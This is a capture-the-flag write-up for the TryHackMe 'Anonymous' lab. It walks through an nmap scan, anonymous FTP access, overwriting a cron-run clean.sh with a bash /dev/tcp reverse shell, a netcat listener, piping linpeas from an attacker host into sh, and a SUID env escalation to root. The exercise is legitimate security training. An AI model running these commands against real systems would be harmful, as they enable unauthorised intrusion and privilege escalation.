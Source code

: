 ## Anonymous | TryHackMe

This is the link for the room [Anonymous](https://tryhackme.com/room/anonymous)

<img src="https://user-images.githubusercontent.com/67650329/214474313-96ed4e22-4432-4a7f-af21-c9e3dc5d97bc.png" width="250px" align="center">

---
Not the hacking group.

Let's Go.

`nmap -sC -sV -p- -T4 {IP}`

- -sC = Run the default script.
- -sV = Version of services.
- -p- = Checking for all port.
- -T4 = Scanning speed.

This is the result for the scanning with nmap tools.

```
PORT	STATE SERVICE 	REASON  VERSION
21/tcp  open  ftp     	syn-ack vsftpd 2.0.8 or later
***
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx	2 111  	113      	4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh     	syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
***
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time:
|   date: 2023-01-09T09:59:39
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 31568/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52311/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 24358/udp): CLEAN (Failed to receive data)
|   Check 4 (port 37087/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>    	Flags: <unique><active>
|   ANONYMOUS<03>    	Flags: <unique><active>
|   ANONYMOUS<20>    	Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>    	Flags: <group><active>
|   WORKGROUP<1d>    	Flags: <unique><active>
|   WORKGROUP<1e>    	Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_	Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-01-09T09:59:39+00:00
```

Port open:

- 21 = FTP.
- 22 = SSH.
- 139 = netbios.
- 445 = netbios.

As we can see open port 21 FTP says:
```
21/tcp  open  ftp     	syn-ack vsftpd 2.0.8 or later
***
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx	2 111  	113      	4096 Jun 04  2020 scripts [NSE: writeable]
```
ftp Anonymous FTP login allowed. So we can use the ftp with anonymous user.

`ftp [IP_Target]`

```
Connected to Target.
220 NamelessOne's FTP Server!
Name (Target:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||52432|)
150 Here comes the directory listing.
drwxrwxrwx	2 111  	113      	4096 Jun 04  2020 scripts
226 Directory send OK.
```
We are into the ftp machine. 

We can see on ftp we got the folder scripts. 

We can get in to the scripts folder.

```
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||38352|)
150 Here comes the directory listing.
-rwxr-xrwx	1 1000 	1000      	314 Jun 04  2020 clean.sh
-rw-rw-r--	1 1000 	1000     	1247 Jan 09 10:06 removed_files.log
-rw-r--r--	1 1000 	1000       	68 May 12  2020 to_do.txt
226 Directory send OK.
```
And now we can see the 3 files on scripts folder (clean.sh, removed_files.log & to_do_txt)

We can download the 3 files on this scripts folder.

```
ftp> mget *
mget clean.sh [anpqy?]?
229 Entering Extended Passive Mode (|||12870|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |*******************************|   314  	110.62 KiB/s	00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (1.54 KiB/s)
mget removed_files.log [anpqy?]?
229 Entering Extended Passive Mode (|||50223|)
150 Opening BINARY mode data connection for removed_files.log (1247 bytes).
100% |*******************************|  1247   	20.86 MiB/s	00:00 ETA
226 Transfer complete.
1247 bytes received in 00:00 (6.24 KiB/s)
mget to_do.txt [anpqy?]?
229 Entering Extended Passive Mode (|||59539|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |*******************************|	68  	657.48 KiB/s	00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.33 KiB/s)
```
Ok!. After we download the files, We can open the files one by one.

```
└─$ cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
    	echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
	for LINE in $tmp_files; do
    	rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
```
└─$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
***
```
```
└─$ cat to_do.txt   	 
I really need to disable the anonymous login...it's really not safe
```
After that we can see the clean.sh. We can replace the clean.sh with our shell on [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

And after we change the file with our code. Now we must replace the file on ftp with our code file.

Before we replace it. Don't forget to run the listener using netcat.

`nc -lvnp [Port]

```
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||55931|)
150 Ok to send data.
100% |*******************************|	54  	878.90 KiB/s	00:00 ETA
226 Transfer complete.
54 bytes sent in 00:00 (0.13 KiB/s)
```
After we put the file into the ftp machine.

The listener automated run into the machine ssh machine.

```
listening on [any] 4444 ...
connect to [Target] from (UNKNOWN) [10.10.212.113] 54920
bash: cannot set terminal process group (1368): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ ls
ls
pics
user.txt
namelessone@anonymous:~$ cat user.txt
cat user.txt
```
After we got the user the next step it's we must find the root.

I think we can use the linpeas first.

```
namelessone@anonymous:~$ curl 10.8.8.39/linpeas.sh | sh

-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env
```
On the linpeas we got the edited file on env folder.

We can exploit the env with [gtfo](https://gtfobins.github.io/gtfobins/env/)

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
whoami
root
cat /root/root.txt
```
And BOOM! We got the root.

---

